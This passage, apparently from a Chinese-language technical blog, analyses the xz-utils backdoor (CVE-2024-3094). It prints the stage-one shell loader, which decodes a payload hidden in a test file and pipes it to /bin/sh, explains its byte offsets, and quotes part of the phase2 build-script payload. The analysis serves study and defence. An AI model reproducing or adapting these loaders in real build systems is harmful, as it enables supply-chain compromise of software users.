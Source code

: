 ```shell
export i="((head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +939)";(xz -dc $srcdir/tests/files/good-large_compressed.lzma|eval $i|tail -c +31233|tr "\114-\321\322-\377\35-\47\14-\34\0-\13\50-\113" "\0-\377")|xz -F raw --lzma1 -dc|/bin/sh
####World####
`
```

這兩個版本的 payload 差不多，不過5.6.1版本會確認是否在 Linux 上編譯，而且確認了5次，可能是為了增加更改的量，讓 commit 看起來更正常

另一個不同的點是變數`i`的值不同，偏移量有所區別

`i`的指令會丟棄前1024bytes，輸出2048bytes，再次丟棄前1024bytes，輸出2048bytes，這樣重複16次，最後丟棄前1024bytes，輸出724bytes(5.6.0)/939bytes(5.6.1)

後面的部分則是將第二個包含惡意 Payload 的測試檔案(`tests/files/good-large_compressed.lzma`)解壓縮，並對輸出執行`i`的指令，擷取尾部31265bytes(5.6.0)/31233bytes(5.6.1)，使用 tr 替換字元，再次進行一次解壓縮，得到 phase2 payload，並將其執行

```shell
xz -dc $srcdir/tests/files/good-large_compressed.lzma|eval $i|tail -c +31265|tr "\5-\51\204-\377\52-\115\132-\203\0-\4\116-\131" "\0-\377")|xz -F raw --lzma1 -dc|/bin/sh
```

{% fold info @phase2 payload %}

[**5.6.0-phase2-payload**](5.6.0-phase2-payload.txt)

```bash
P="-fPIC -DPIC -fno-lto -ffunction-sections -fdata-sections"
C="pic_flag=\" $P\""
O="^pic_flag=\" -fPIC -DPIC\"$"
R="is_arch_extension_supported"
x="__get_cpuid("
p="good-large_compressed.lzma"
U="bad-3-corrupt_lzma2.xz"
eval $zrKcVq
if test -f config.status; then
eval $zrKcSS
eval `grep ^LD=\'\/ config.status`
eval `grep ^CC=\' config.status`
eval `grep ^GCC=\' config.status`
eval `grep ^srcdir=\' config.status`
eval `grep ^build=\'x86_64 config.status`
eval `grep ^enable_shared=\'yes\' config.status`
eval `grep ^enable_static=\' config.status`
eval `grep ^gl_path_map=\' config.status`
eval $zrKccj
if ! grep -qs '\["HAVE_FUNC_ATTRIBUTE_IFUNC"\]=" 1"' config.status > /dev/null 2>&1;then
exit 0
fi
if ! grep -qs 'define HAVE_FUNC_ATTRIBUTE_IFUNC 1' config.h > /dev/null 2>&1;then
exit 0
fi
if test "x$enable_shared" != "xyes";then
exit 0
fi
if ! (echo "$build" | grep -Eq "^x86_64" > /dev/null 2>&1) && (echo "$build" | grep -Eq "linux-gnu$" > /dev/null 2>&1);then
exit 0
fi
if ! grep -qs "$R()" $srcdir/src/liblzma/check/crc64_fast.c > /dev/null 2>&1; then
```

[^1]: [oss-security - backdoor in upstream xz/liblzma leading to ssh server compromise](https://www.openwall.com/lists/oss-security/2024/03/29/4)
[^2]: [FAQ on the xz-utils backdoor (CVE-2024-3094)](https://gist.github.com/thesamesam/223949d5a074ebc3dce9ee78baad9e27#design)
[^3]: [landlock(7) - Linux manual page](https://man7.org/linux/man-pages/man7/landlock.7.html)
[^4]: [CheckCSourceCompiles — CMake 3.29.2 Documentation](https://cmake.org/cmake/help/latest/module/CheckCSourceCompiles.html)
[^5]: [CheckIncludeFile — CMake 3.29.2 Documentation](https://cmake.org/cmake/help/latest/module/CheckIncludeFile.html)
[^6]: [research!rsc: The xz attack shell script](https://research.swtch.com/xz-script)
[^7]: [amlweems/xzbot](https://github.com/amlweems/xzbot)
[^8]: [XZ Utils backdoor](https://tukaani.org/xz-backdoor/)
[^9]: [xz-utils backdoor situation](https://gist.github.com/martenson/398bdb7a928069cf67606c9ba919a7ce)
[^10]: [xz-utils backdoor situation (CVE-2024-3094)](https://gist.github.com/thesamesam/223949d5a074ebc3dce9ee78baad9e27)
